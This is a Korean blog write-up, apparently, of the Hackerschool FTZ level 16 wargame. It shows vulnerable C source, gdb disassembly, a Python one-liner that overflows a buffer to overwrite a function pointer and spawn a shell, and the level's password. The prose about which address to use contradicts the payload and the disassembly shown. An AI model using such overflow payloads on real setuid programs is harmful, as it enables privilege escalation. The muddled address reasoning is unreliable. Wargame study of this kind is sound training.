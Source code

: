 ```yaml
---
date: '2022-10-06'
before : '2022-10-05'
after : '2022-10-07'
title: '해커스쿨 FTZ 레벨 16'
categories: [ 'KOR','pwn']
summary: ''
thumbnail: './C_Sec.jpg'
---
```

### 0. 들어가기 전에.
여기까지 오니 슬슬 disas해서 스택을 살펴보는 과정은 (적어도 간단한 프로그램에선) 익숙해지는 것 같다!

### 1. Level 16

오늘은 함수 포인터에 관한 문제다. 소스코드를 확인해보자!
```
#include <stdio.h>

void shell() {

  setreuid(3097,3097);

  system("/bin/sh");

}

void printit() {

  printf("Hello there!\n");

}

main()

{ int crap;

  void (*call)()=printit;

  char buf[20];

  fgets(buf,48,stdin);

  call();

}
```
void(*call)()=printit 부분에서 printit의 포인터를 가져와 call()로 실행시켜준다. 즉, 그냥 printit을 실행하는 함수이다. fgets에서 48바이트 입력받으니 오버플로우는 충분히 가능하다. 그럼 우리가 해야 할 일은?


**shell 함수의 메모리 주소를 찾아내 *call에 덮어씌우면 된다!**

gdb에서 disas shell을 해보니 :
```
0x08048500 <printit+0>: push   ebp
0x08048501 <printit+1>: mov    ebp,esp
0x08048503 <printit+3>: sub    esp,0x8
0x08048506 <printit+6>: sub    esp,0xc
0x08048509 <printit+9>: push   0x80485c0
0x0804850e <printit+14>:        call   0x80483a4 <printf>
0x08048513 <printit+19>:        add    esp,0x10
0x08048516 <printit+22>:        leave
0x08048517 <printit+23>:        ret

```
ebp가 08048500을 가리키는 것을 볼 수 있다. 따라서 그냥 저 주소를 BOF공격으로 넣어주면 된다. 우리 배열부터 call 포인터까지의 거리는 main을 disas해보면 알 수 있을것이다 : 
```
0x08048518 <main+0>:    push   ebp
0x08048519 <main+1>:    mov    ebp,esp
0x0804851b <main+3>:    sub    esp,0x38
0x0804851e <main+6>:    mov    DWORD PTR [ebp-16],0x8048500
0x08048525 <main+13>:   sub    esp,0x4
0x08048528 <main+16>:   push   ds:0x80496e8
0x0804852e <main+22>:   push   0x30
0x08048530 <main+24>:   lea    eax,[ebp-56]
0x08048533 <main+27>:   push   eax
0x08048534 <main+28>:   call   0x8048384 <fgets>
0x08048539 <main+33>:   add    esp,0x10
0x0804853c <main+36>:   mov    eax,DWORD PTR [ebp-16]
0x0804853f <main+39>:   call   eax
0x08048541 <main+41>:   leave
0x08048542 <main+42>:   ret
0x08048543 <main+43>:   nop
0x08048544 <main+44>:   nop
0x08048545 <main+45>:   nop
0x08048546 <main+46>:   nop
0x08048547 <main+47>:   nop
0x08048548 <main+48>:   nop
0x08048549 <main+49>:   nop
```
저번 문제와 똑같이 거리는 40이다. 그럼 공격 코드도 다음과 같을 것이다 :
```
(python -c 'print "A"*40+"\xd0\x84\x04\x08"'; cat) | ./attackme
```
실행하면 Shell을 얻을 수 있다! 이 문제 또한 간단한 것 같다.


비밀번호 : king poetic
---
## Source

- 해커스쿨 FTZ
- Me!

